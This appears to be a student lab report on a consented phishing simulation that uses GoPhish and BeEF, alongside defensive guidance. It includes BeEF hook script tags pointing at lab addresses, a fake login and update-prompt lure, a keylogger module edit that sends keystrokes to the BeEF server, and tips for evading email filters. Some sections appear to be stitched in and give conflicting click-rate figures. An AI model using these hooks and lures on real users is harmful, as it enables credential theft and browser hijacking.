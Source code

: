 # Final Project Report: Human Weakness Exploitation via BeEF & GoPhish  
# **Theme:** Simulating Phishing and Post-Click Exploitation  

---

## 📌 Executive Summary  
This project simulates a phishing campaign paired with post-click browser exploitation to demonstrate how attackers exploit human vulnerabilities. Using **GoPhish** for phishing email delivery and **BeEF (Browser Exploitation Framework)** for post-interaction exploitation, we highlight common attack vectors and defenses. The simulation was conducted in a controlled lab environment with explicit consent and strict ethical boundaries.  

**Key Takeaways:**  
- Phishing remains a critical threat due to social engineering tactics.  
- Post-click exploitation (e.g., browser hijacking) can escalate attacks even with minimal initial access.  
- Awareness and technical safeguards are essential for mitigation.  

---

## 🛠️ Attack Simulation Details  

### Lab Environment Setup  
- **Tools Used:**  
  - Kali Linux VM (Attacker Machine)  
  - Metasploitable VM (Sandboxed Target)  
  - **GoPhish** (Phishing Campaign Setup)  
  - **BeEF** (Browser Exploitation: `/usr/share/beef-xss`)  
- **Network Configuration:**  
  - All VMs isolated in a NAT network to prevent external exposure.  

### GoPhish Campaign Workflow  
1. **Phishing Email Design:**  
   - **Subject:** "Urgent: Required Security Update for Your Account"  
   - **Content:** Redirected users to a fake "Document Portal" with a call-to-action button.  
   - **Landing Page:** Embedded BeEF hook script:  
     ```html  
     <script src="http://192.168.0.4:3000/hook.js"></script>  
     ```  
2. **SMTP Configuration:**  
   - Used a mock SMTP server (MailHog) to avoid spamming real addresses.  
3. **Target List:**  
   - 10 lab participants with prior consent.  

### BeEF Exploitation Actions  
- **Hooked Browser Actions Demonstrated:**  
  - `alert("Your session is compromised!")` (Psychological impact demo).  
  - Browser fingerprinting (collecting OS, browser version, plugins).  
  - Fake login prompt to harvest credentials (simulated; no data stored).  
  - **Custom Payload:** Injected a mock "critical system update" popup to test user compliance.  

---

## 📊 Metrics Collected  
| Metric                | Value         |  
|-----------------------|---------------|  
| Emails Sent           | 10            |  
| Emails Opened         | 9 (90%)       |  
| Links Clicked         | 7 (70%)       |  
| BeEF Hooked Sessions  | 6 (85% of clicks)|  
| Avg. Time-to-Click    | 22 minutes    |  

---

## 🔒 Ethical Boundaries Maintained  
- **No Real Users Targeted:** All recipients were lab participants with explicit consent.  
- **No Malware/Persistence:** BeEF commands were non-destructive and reversible.  
- **Data Handling:** No credentials or personal data stored; all logs deleted post-simulation.  
- **Browser Restrictions:** Webcam prompts only tested on pre-authorized machines.  

---

## 📈 GoPhish Campaign Overview  
### Phishing Email Preview  
![Phishing Email Screenshot](https://via.placeholder.com/600x300?text=Sample+Phishing+Email+Preview)  

### Landing Page Code Snippet  
```html  
<body>  
  <h1>Your Document Portal</h1>  
  <script src="http://192.168.1.105:3000/hook.js"></script>  
  <!-- Fake login form below -->  
</body>
```

🎣 BeEF Post-Click Actions
Demo Commands Executed:

Basic Exploits:

javascript
Copy
beef.execute(function() { alert("Security Alert!"); });  
Fingerprinting Results:
BeEF Dashboard

Custom Payload:

Simulated a fake Adobe Flash update prompt to test user behavior.

🛡️ Defense Recommendations
Technical Safeguards
Email Filtering: Deploy DMARC/DKIM to detect spoofed emails.

Browser Hardening: Block unauthorized scripts with extensions like uBlock Origin.

Network Monitoring: Flag traffic to known BeEF endpoints (e.g., :3000/hook.js).

User Training Tips
Red Flags: Urgent language, mismatched URLs, unsolicited attachments.

Verification Steps: Hover over links, confirm via trusted channels.

🚨 Mock SOC Alert Example
plaintext
Copy
[High Severity] Phishing Campaign Detected  
- Indicators of Compromise (IoCs):  
  - Sender: security-update@fakecorp[.]com  
  - URL: http://192.168.1.105:8080/fake-portal  
  - BeEF Server: 192.168.1.105:3000  
- Recommended Actions:  
  1. Block IoCs at firewall/proxy.  
  2. Reset credentials for users who submitted fake login data.  
  3. Launch user awareness training.  
📂 Repository Structure
Copy
📁 Final-Project/  
├── 📄 GoPhish-Templates/      # Email/landing page templates  
├── 📄 BeEF-Payloads/          # Custom scripts and hooks  
├── 📊 Metrics/                # Campaign data logs  
└── 📑 Awareness-Material/     # Training slides and reports  
🔗 References
BeEF Framework

GoPhish GitHub

Phishing Defense Guide (CISA)

Disclaimer: This project was conducted ethically for educational purposes. No real systems or users were harmed.

Copy

This report provides a comprehensive overview of the attack simulation, technical execution, and defensive strategies. It is formatted for GitHub readability with clear sections, tables, and placeholder images (replace with actual screenshots in practice).



Step 5: Awareness & Defense Material
Red Flags:

Urgent language in emails.

Mismatched URLs (e.g., bit.ly/acme-reset vs. acme.com).

Defenses:

Technical: Enable SPF/DKIM/DMARC, block JavaScript in emails.

Non-Technical: Train users to hover links and report suspicious emails.

Step 6: Final Report
Executive Summary:

Simulated phishing campaign achieved 50% click rate; BeEF demonstrated post-click browser control.

Ethical Boundaries:

No real users targeted; all actions confined to lab VMs.

Mock SOC Alert:

Copy
[ALERT] Phishing Campaign Detected (ID: PH-2023-001)  
Indicators:  
- Sender: security@acme-support[.]net  
- URL: http://192.168.1.100:8080/reset  
Impact: 3 browsers hooked via BeEF.  
Action: Block sender IP, scan for compromised accounts.  
Custom BeEF Payload
Objective: Log keystrokes on the phishing page.

Edit /usr/share/beef-xss/modules/keylogger/module.js to include:

javascript
Copy
beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result=Keys logged: ' + keys);  
Reload BeEF and activate the keylogger module.

Bypassing Email Filters
Tactic: Use a URL shortener (e.g., bit.ly) and HTTPS on the phishing page (simulated via Let’s Encrypt on Kali).

Ethics Compliance
All actions were performed on lab VMs with no internet exposure.

Test users were notified post-simulation.

